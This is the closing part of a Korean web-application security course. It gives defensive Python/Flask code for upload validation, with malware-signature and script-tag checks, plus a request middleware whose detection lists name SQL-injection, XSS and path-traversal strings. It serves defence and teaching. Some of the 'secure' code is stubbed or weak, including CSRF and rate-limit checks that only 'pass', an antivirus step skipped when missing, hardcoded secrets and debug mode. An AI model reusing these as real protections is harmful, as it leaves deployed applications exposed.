                return False, f"악성 코드 시그니처 발견: {signature.decode(errors='ignore')}"
        
        # PHP 태그 검사 (더 정교한)
        php_patterns = [
            b'<?php', b'<?=', b'<? ', b'<?\\n', b'<?\\r',
            b'<%@', b'<%!', b'<%= ', b'<jsp:'
        ]
        
        for pattern in php_patterns:
            if pattern in file_content:
                return False, f"서버 사이드 스크립트 태그 발견"
        
        return True, "악성 콘텐츠 스캔 통과"
    
    def validate_image_file(self, file_content):
        """이미지 파일 유효성 검사"""
        try:
            # PIL을 사용한 이미지 검증
            image = Image.open(io.BytesIO(file_content))
            
            # 이미지 정보 확인
            format_info = image.format
            size_info = image.size
            mode_info = image.mode
            
            # 악성 이미지 체크
            if size_info[0] > 10000 or size_info[1] > 10000:
                return False, "이미지 크기가 너무 큽니다"
            
            # 이미지를 다시 저장하여 메타데이터 제거
            clean_image = Image.new(image.mode, image.size)
            clean_image.putdata(list(image.getdata()))
            
            # 정리된 이미지를 바이트로 변환
            output = io.BytesIO()
            clean_image.save(output, format=format_info)
            cleaned_content = output.getvalue()
            
            return True, cleaned_content
            
        except Exception as e:
            return False, f"이미지 검증 실패: {str(e)}"
    
    def scan_archive_file(self, file_content, filename):
        """압축 파일 스캔"""
        try:
            with tempfile.NamedTemporaryFile() as temp_file:
                temp_file.write(file_content)
                temp_file.flush()
                
                if filename.lower().endswith('.zip'):
                    with zipfile.ZipFile(temp_file.name, 'r') as zip_file:
                        return self._scan_zip_contents(zip_file)
                
                elif filename.lower().endswith('.rar'):
                    with rarfile.RarFile(temp_file.name, 'r') as rar_file:
                        return self._scan_rar_contents(rar_file)
                
                return True, "압축 파일 스캔 완료"
                
        except Exception as e:
            return False, f"압축 파일 스캔 실패: {str(e)}"
    
    def _scan_zip_contents(self, zip_file):
        """ZIP 파일 내용 스캔"""
        for file_info in zip_file.filelist:
            filename = file_info.filename
            
            # 경로 순회 공격 확인
            if '..' in filename or filename.startswith('/'):
                return False, f"위험한 경로 발견: {filename}"
            
            # 파일 확장자 확인
            if '.' in filename:
                ext = filename.split('.')[-1].lower()
                if ext in self.dangerous_extensions:
                    return False, f"위험한 파일 포함: {filename}"
            
            # 압축 해제 후 크기 확인 (ZIP 폭탄 방지)
            if file_info.file_size > 100 * 1024 * 1024:  # 100MB
                return False, f"파일이 너무 큽니다: {filename}"
        
        return True, "ZIP 파일 안전"
    
    def _scan_rar_contents(self, rar_file):
        """RAR 파일 내용 스캔"""
        for file_info in rar_file.infolist():
            filename = file_info.filename
            
            # 경로 순회 공격 확인
            if '..' in filename or filename.startswith('/'):
                return False, f"위험한 경로 발견: {filename}"
            
            # 파일 확장자 확인
            if '.' in filename:
                ext = filename.split('.')[-1].lower()
                if ext in self.dangerous_extensions:
                    return False, f"위험한 파일 포함: {filename}"
        
        return True, "RAR 파일 안전"
    
    def generate_safe_filename(self, original_filename):
        """안전한 파일명 생성"""
        # 원본 확장자 추출
        if '.' in original_filename:
            extension = original_filename.split('.')[-1].lower()
        else:
            extension = 'txt'
        
        # UUID와 타임스탬프로 고유한 파일명 생성
        unique_id = str(uuid.uuid4())
        timestamp = str(int(time.time()))
        
        safe_filename = f"{unique_id}_{timestamp}.{extension}"
        
        return safe_filename
    
    def calculate_file_hash(self, file_content):
        """파일 해시 계산 (중복 파일 확인용)"""
        return hashlib.sha256(file_content).hexdigest()
    
    def antivirus_scan(self, file_path):
        """안티바이러스 스캔 (ClamAV 예시)"""
        try:
            # ClamAV 스캔 실행
            result = subprocess.run(
                ['clamscan', '--infected', '--no-summary', file_path],
                capture_output=True,
                text=True,
                timeout=30
            )
            
            if result.returncode == 1:  # 악성코드 발견
                return False, "악성코드가 발견되었습니다"
            elif result.returncode == 0:  # 안전
                return True, "안티바이러스 스캔 통과"
            else:
                return False, "안티바이러스 스캔 실패"
                
        except subprocess.TimeoutExpired:
            return False, "안티바이러스 스캔 시간 초과"
        except FileNotFoundError:
            return True, "안티바이러스가 설치되지 않음 (스킵)"
        except Exception as e:
            return False, f"안티바이러스 스캔 오류: {str(e)}"
    
    def upload_file(self, file_data, original_filename, user_id=None):
        """종합적인 파일 업로드 처리"""
        # 1. 기본 검증
        if not file_data:
            return False, "파일 데이터가 없습니다", None
        
        if len(file_data) > self.max_file_size:
            return False, f"파일 크기 초과: {len(file_data)} bytes", None
        
        if len(file_data) == 0:
            return False, "빈 파일입니다", None
        
        # 2. 파일명 검증
        ext_valid, ext_message = self.validate_file_extension(original_filename)
        if not ext_valid:
            return False, ext_message, None
        
        # 3. MIME 타입 검증
        mime_valid, mime_message = self.validate_mime_type(file_data)
        if not mime_valid:
            return False, mime_message, None
        
        # 4. 악성 콘텐츠 스캔
        malware_valid, malware_message = self.scan_for_malicious_content(file_data)
        if not malware_valid:
            return False, malware_message, None
        
        # 5. 파일 타입별 추가 검증
        mime_type = magic.from_buffer(file_data, mime=True)
        
        if mime_type.startswith('image/'):
            image_valid, image_result = self.validate_image_file(file_data)
            if not image_valid:
                return False, image_result, None
            file_data = image_result  # 정리된 이미지 데이터 사용
        
        elif original_filename.lower().endswith(('.zip', '.rar')):
            archive_valid, archive_message = self.scan_archive_file(file_data, original_filename)
            if not archive_valid:
                return False, archive_message, None
        
        # 6. 안전한 파일명 생성
        safe_filename = self.generate_safe_filename(original_filename)
        file_path = os.path.join(self.upload_directory, safe_filename)
        
        # 7. 파일 저장
        try:
            with open(file_path, 'wb') as f:
                f.write(file_data)
        except Exception as e:
            return False, f"파일 저장 실패: {str(e)}", None
        
        # 8. 안티바이러스 스캔
        av_valid, av_message = self.antivirus_scan(file_path)
        if not av_valid:
            os.remove(file_path)  # 감염된 파일 삭제
            return False, av_message, None
        
        # 9. 파일 정보 생성
        file_info = {
            'original_filename': original_filename,
            'safe_filename': safe_filename,
            'file_path': file_path,
            'file_size': len(file_data),
            'mime_type': mime_type,
            'file_hash': self.calculate_file_hash(file_data),
            'upload_time': time.time(),
            'user_id': user_id
        }
        
        return True, "파일 업로드 성공", file_info

# Flask 애플리케이션에서 사용
app = Flask(__name__)
file_uploader = SecureFileUpload('./uploads')

@app.route('/upload', methods=['POST'])
def upload_file():
    """파일 업로드 엔드포인트"""
    if 'file' not in request.files:
        return jsonify({'error': '파일이 선택되지 않았습니다'}), 400
    
    file = request.files['file']
    if file.filename == '':
        return jsonify({'error': '파일이 선택되지 않았습니다'}), 400
    
    # 파일 데이터 읽기
    file_data = file.read()
    
    # 안전한 업로드 처리
    success, message, file_info = file_uploader.upload_file(
        file_data, 
        file.filename,
        user_id=session.get('user_id')
    )
    
    if success:
        return jsonify({
            'success': True,
            'message': message,
            'file_info': {
                'filename': file_info['safe_filename'],
                'size': file_info['file_size'],
                'type': file_info['mime_type']
            }
        })
    else:
        return jsonify({'error': message}), 400

@app.route('/download/<filename>')
def download_file(filename):
    """파일 다운로드 (안전한 파일명으로만)"""
    # 파일명 검증
    if not filename or '..' in filename or '/' in filename:
        return jsonify({'error': '유효하지 않은 파일명'}), 400
    
    file_path = os.path.join(file_uploader.upload_directory, filename)
    
    if not os.path.exists(file_path):
        return jsonify({'error': '파일을 찾을 수 없습니다'}), 404
    
    return send_file(file_path, as_attachment=True)

if __name__ == "__main__":
    app.run(debug=True)
```

### 4. 종합적인 웹 애플리케이션 보안 대책

#### 보안 개발 생명주기 (SDL)


#### 통합 보안 미들웨어
```python
#!/usr/bin/env python3
# 웹 애플리케이션 통합 보안 미들웨어

from flask import Flask, request, jsonify, session
import time
import json
import logging
from functools import wraps

class WebSecurityMiddleware:
    def __init__(self, app, config=None):
        self.app = app
        self.config = config or {}
        
        # 각종 보안 모듈 초기화
        self.csrf_protection = CSRFProtection(self.config.get('csrf_secret', 'default'))
        self.rate_limiter = LoginRateLimiter()
        self.auth_manager = AuthenticationManager(self.config.get('jwt_secret', 'default'))
        self.anti_automation = AntiAutomationProtection()
        self.file_uploader = SecureFileUpload('./uploads')
        
        # 보안 로거 설정
        self.security_logger = self._setup_security_logger()
        
        # 미들웨어 등록
        app.before_request(self.before_request)
        app.after_request(self.after_request)
    
    def _setup_security_logger(self):
        """보안 이벤트 로거 설정"""
        logger = logging.getLogger('security')
        logger.setLevel(logging.INFO)
        
        handler = logging.FileHandler('security.log')
        formatter = logging.Formatter(
            '%(asctime)s - %(levelname)s - %(message)s'
        )
        handler.setFormatter(formatter)
        logger.addHandler(handler)
        
        return logger
    
    def before_request(self):
        """요청 전 보안 검사"""
        # 1. 기본 보안 헤더 확인
        self._check_security_headers()
        
        # 2. 의심스러운 요청 패턴 탐지
        if self._detect_suspicious_patterns():
            self.security_logger.warning(
                f"의심스러운 요청 패턴: {request.remote_addr} - {request.url}"
            )
        
        # 3. 속도 제한 확인
        client_id = f"{request.remote_addr}:{request.headers.get('User-Agent', '')}"
        
        # 4. 보안 이벤트 로깅
        self.security_logger.info(
            f"Request: {request.method} {request.url} from {request.remote_addr}"
        )
    
    def after_request(self, response):
        """응답 후 보안 헤더 추가"""
        # 보안 헤더 설정
        security_headers = {
            'X-Content-Type-Options': 'nosniff',
            'X-Frame-Options': 'DENY',
            'X-XSS-Protection': '1; mode=block',
            'Strict-Transport-Security': 'max-age=31536000; includeSubDomains',
            'Content-Security-Policy': "default-src 'self'; script-src 'self' 'unsafe-inline'",
            'Referrer-Policy': 'strict-origin-when-cross-origin'
        }
        
        for header, value in security_headers.items():
            response.headers[header] = value
        
        # 민감한 정보 제거
        response.headers.pop('Server', None)
        response.headers.pop('X-Powered-By', None)
        
        return response
    
    def _check_security_headers(self):
        """보안 헤더 확인"""
        required_headers = ['Host', 'User-Agent']
        
        for header in required_headers:
            if header not in request.headers:
                self.security_logger.warning(
                    f"필수 헤더 누락: {header} from {request.remote_addr}"
                )
    
    def _detect_suspicious_patterns(self):
        """의심스러운 요청 패턴 탐지"""
        url = request.url.lower()
        user_agent = request.headers.get('User-Agent', '').lower()
        
        # SQL 인젝션 패턴
        sql_patterns = ['union', 'select', 'drop', 'insert', 'update', 'delete', '--', ';']
        if any(pattern in url for pattern in sql_patterns):
            return True
        
        # XSS 패턴
        xss_patterns = ['<script', 'javascript:', 'onload=', 'onerror=']
        if any(pattern in url for pattern in xss_patterns):
            return True
        
        # 경로 순회 패턴
        if '../' in url or '..\\' in url:
            return True
        
        # 봇 사용자 에이전트
        bot_patterns = ['bot', 'crawler', 'spider', 'scraper']
        if any(pattern in user_agent for pattern in bot_patterns):
            return True
        
        return False
    
    def secure_endpoint(self, **security_options):
        """보안 엔드포인트 데코레이터"""
        def decorator(f):
            @wraps(f)
            def decorated_function(*args, **kwargs):
                # CSRF 보호
                if security_options.get('csrf_protect', True):
                    if request.method in ['POST', 'PUT', 'DELETE', 'PATCH']:
                        # CSRF 토큰 검증 로직
                        pass
                
                # 인증 확인
                if security_options.get('require_auth', True):
                    if 'user_id' not in session:
                        return jsonify({'error': '인증이 필요합니다'}), 401
                
                # 권한 확인
                required_role = security_options.get('require_role')
                if required_role:
                    user_role = session.get('user_role')
                    if user_role != required_role:
                        return jsonify({'error': '권한이 부족합니다'}), 403
                
                # 속도 제한
                rate_limit = security_options.get('rate_limit')
                if rate_limit:
                    client_id = f"{request.remote_addr}"
                    # 속도 제한 확인 로직
                    pass
                
                return f(*args, **kwargs)
            
            return decorated_function
        return decorator
    
    def generate_security_report(self):
        """보안 상태 보고서 생성"""
        with open('security.log', 'r') as f:
            log_lines = f.readlines()
        
        # 보안 이벤트 분석
        suspicious_ips = {}
        attack_patterns = {}
        
        for line in log_lines[-1000:]:  # 최근 1000개 로그 분석
            if '의심스러운 요청' in line:
                # IP 추출 및 카운트
                pass
        
        report = {
            'timestamp': time.time(),
            'total_requests': len(log_lines),
            'suspicious_activities': len([l for l in log_lines if '의심스러운' in l]),
            'top_suspicious_ips': suspicious_ips,
            'attack_patterns': attack_patterns,
            'recommendations': self._generate_recommendations()
        }
        
        return report
    
    def _generate_recommendations(self):
        """보안 권장사항 생성"""
        return [
            "정기적인 보안 패치 적용",
            "강력한 패스워드 정책 적용",
            "2단계 인증 도입",
            "보안 로그 정기 검토",
            "침투 테스트 실시",
            "보안 교육 실시"
        ]

# 사용 예시
app = Flask(__name__)
app.secret_key = 'security-middleware-key'

# 보안 미들웨어 적용
security = WebSecurityMiddleware(app, {
    'csrf_secret': 'csrf-secret-key',
    'jwt_secret': 'jwt-secret-key'
})

@app.route('/admin/users')
@security.secure_endpoint(require_auth=True, require_role='admin', csrf_protect=True)
def admin_users():
    """관리자 전용 사용자 목록"""
    return jsonify({'users': ['user1', 'user2', 'user3']})

@app.route('/api/data', methods=['POST'])
@security.secure_endpoint(rate_limit={'requests': 100, 'window': 3600})
def api_data():
    """API 엔드포인트 (속도 제한 적용)"""
    return jsonify({'data': 'API 응답'})

@app.route('/security-report')
def security_report():
    """보안 상태 보고서"""
    report = security.generate_security_report()
    return jsonify(report)

if __name__ == "__main__":
    app.run(debug=True, ssl_context='adhoc')  # HTTPS 사용
```

## 마무리

이번 20강에서는 **고급 공격 기법과 종합 대응**을 다뤘습니다. **CSRF 방어**, **자동화 공격 차단**, **안전한 파일 업로드**, **통합 보안 미들웨어** 등을 통해 웹 애플리케이션의 보안을 종합적으로 강화하는 방법을 학습했습니다.

## 전체 과정 요약

**04_Application_Security** 시리즈를 통해 학습한 주요 내용:

### 16강: 웹 애플리케이션 보안 기초
- 웹의 구조와 HTTP 프로토콜
- 3계층 아키텍처
- OWASP Top 10 및 KISA 취약점 분류

### 17강: 인젝션 공격과 대응
- OS 명령 실행 취약점
- SQL 인젝션 (Classic, Blind, Error-based)
- XPath 인젝션

### 18강: 정보 노출 및 콘텐츠 보안
- 디렉토리 인덱싱
- 정보 누출
- 악성 콘텐츠
- XSS (Reflected, Stored, DOM-based)

### 19강: 인증 및 세션 보안
- 브루트포스 공격 방어
- 강력한 패스워드 정책
- 종합적인 인증/인가 시스템
- 안전한 세션 관리

### 20강: 고급 공격 기법과 종합 대응
- CSRF 방어
- 자동화 공격 차단
- 안전한 파일 업로드
- 통합 보안 미들웨어

이제 여러분은 **웹 애플리케이션 보안의 모든 영역**을 마스터했습니다! 실무에서 안전하고 견고한 웹 애플리케이션을 개발하는 데 이 지식들을 적극 활용해보세요. 🚀

---
*이 자료는 해킹보안전문가 1급 자격증 취득을 위한 학습 목적으로 작성되었습니다.*